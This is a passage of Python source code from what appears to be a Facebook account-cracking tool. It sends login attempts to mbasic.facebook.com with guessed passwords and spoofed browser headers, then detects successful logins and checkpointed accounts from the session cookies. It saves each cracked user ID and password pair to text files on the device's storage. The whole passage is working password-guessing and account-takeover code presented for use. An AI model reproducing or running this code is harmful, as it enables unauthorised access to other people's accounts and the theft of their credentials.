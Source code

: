             "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',

            "accept-encoding": 'gzip, deflate, br',

            "accept-language": 'en-US,en;q=1',

            'cache-control': 'no-cache, no-store, must-revalidate',

            "referer": 'https://m.free.facebook.com/',

            "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',

            "sec-ch-ua-mobile": '?0',

            "sec-ch-ua-platform": "Windows",

            "sec-fetch-dest": 'document',

            "sec-fetch-mode": 'navigate',

            "sec-fetch-site": 'none',

            "sec-fetch-user": '?1',

            "upgrade-insecure-requests": '1',

            "user-agent": pro}

            lo = session.post('https://mbasic.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text

            log_cookies=session.cookies.get_dict().keys()

            if 'c_user' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[65:80]

                print(f'\r\33[1;92m [𝐎𝐊] '+cid+' | '+ps+'\33[0;92m')

                #print(f'\r\33[1;92m [🚀] Number : {uid}')

                #print(f'\r\033[1;92m [♥] COOKIE : '+coki)

                oks.append(cid)

                open('/sdcard/S4MI-ok.txt', 'a').write(cid+' | '+ps+' | '+uid+'\n')

                break

            elif 'checkpoint' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[82:97]

                print(f"\33[1;91m[CP] {uid}|{ps}")

                print(f'{W}CP-UA--> {pro}\n ')

                open('/sdcard/S4MI-CP.txt', 'a').write( uid+' | '+ps+' \n')

                cps.append(uid)
